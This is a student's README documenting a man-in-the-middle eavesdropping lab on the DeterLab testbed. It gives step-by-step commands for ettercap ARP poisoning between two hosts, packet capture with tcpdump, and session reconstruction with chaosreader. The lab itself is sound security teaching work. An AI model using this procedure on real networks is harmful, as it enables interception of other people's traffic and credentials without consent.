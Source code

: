 # DeterLab-Network-Eavesdropping-Test
Procedure for conducting network eavesdropping test on DeterLab.net 


# USING DETERLAB
### This is my documentation while learning how to use Deter Lab for networking service for networking experiments. The experiments include:
- Eaves Dropping

## Logging in to DeterLab Account Via SSH

Use `ssh` comand and your user name. as below:

```
ssh yourusername@users.deterlab.net
```

## Logging on to DeterLab Experiment instance

SSH to experiment instance 

```
ssh eve.EavesDropbyBarasa.EEC2505.isi.deterlab.net
```
### Change directory


### Eaves dropping

#### **ifconfig on victim**
```
ifconfig
```
The result is as below
```
# ifconfig
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.1.4  netmask 255.255.255.0  broadcast 10.1.1.255
        inet6 fe80::204:23ff:fec7:a315  prefixlen 64  scopeid 0x20<link>
        ether 00:04:23:c7:a3:15  txqueuelen 1000  (Ethernet)
        RX packets 181  bytes 44688 (44.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 186  bytes 41167 (41.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth4: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.148  netmask 255.255.252.0  broadcast 192.168.3.255
        inet6 fe80::214:22ff:fe23:8971  prefixlen 64  scopeid 0x20<link>
        ether 00:14:22:23:89:71  txqueuelen 1000  (Ethernet)
        RX packets 61874  bytes 84203890 (84.2 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 16382  bytes 2069538 (2.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth5: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        ether 00:14:22:23:89:72  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 630  bytes 64520 (64.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 630  bytes 64520 (64.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

#### **Run ettercap**

```
ettercap
```
The result is as below:

```
ettercap 0.8.2 copyright 2001-2015 Ettercap Development Team


Please select an User Interface
```
#### **Change to root user**

```
sudo su -
```
or
```
sudo su root

```

#### **Select an eth from ifconfig result, not 127.XXX  or 192.XXX**
```
ettercap -C -i eth1
```
press enter


#### **Enter sniff mode** 
By selecting Unified Sniff simply pressing -U


#### **Scan for host**
Use `ctrl + s` to scan for hosts


#### **Add hosts to target**

Do this by selecting the host and press a number corresponding to the posistion in list

For instance to select host 1:

press `1`

Add both hosts



#### **Start Mitm attack on Mitm tab**

Select ***ARP Poisson ....***

Press enter to select ARP Poisson and press enter again on the parameters prompt
#### **Open another instance and use tcpdump**

Login to another session of the victim computer, eve, and switch as root 


####
```
tcpdump -i eth1 -s0 -w output.pcap 
```  

for 50 seconds
ctrl c

```
404 packets received by filter
0 packets dropped by kernel
```
#### **Read the pcap output file**
```
chaosreader output.pcap
```
Result:

```
Opening, output.pcap

Reading file contents,
 100% (63420/63420)
Reassembling packets,
 100% (361/365)

Creating files...
   Num  Session (host:port <=> host:port)              Service
  0002  10.1.1.3:54080,10.1.1.2:80                     http
  0005  10.1.1.3:54084,10.1.1.2:80                     http
  0015  10.1.1.2:35356,10.1.1.3:80                     http
  0004  10.1.1.3:46250,10.1.1.2:443                    https
  0008  10.1.1.2:35350,10.1.1.3:80                     http
  0003  10.1.1.2:35346,10.1.1.3:80                     http
  0009  10.1.1.3:46256,10.1.1.2:443                    https
  0007  10.1.1.2:35348,10.1.1.3:80                     http
  0001  10.1.1.2:35344,10.1.1.3:80                     http
  0016  10.1.1.3:46264,10.1.1.2:443                    https
  0014  10.1.1.3:54094,10.1.1.2:80                     http
  0011  10.1.1.3:54092,10.1.1.2:80                     http
  0012  10.1.1.2:35352,10.1.1.3:80                     http
  0006  10.1.1.3:46254,10.1.1.2:443                    https
  0010  10.1.1.3:46258,10.1.1.2:443                    https
  0017  10.1.1.3:54098,10.1.1.2:80                     http
  0013  10.1.1.2:35354,10.1.1.3:80                     http

index.html created.
```

#### **Install elinks**

```
sudo apt-get install elinks
```

#### **Read with elinks**


```
elinks index.html
```

Scroll and select the last as_html and get the results.

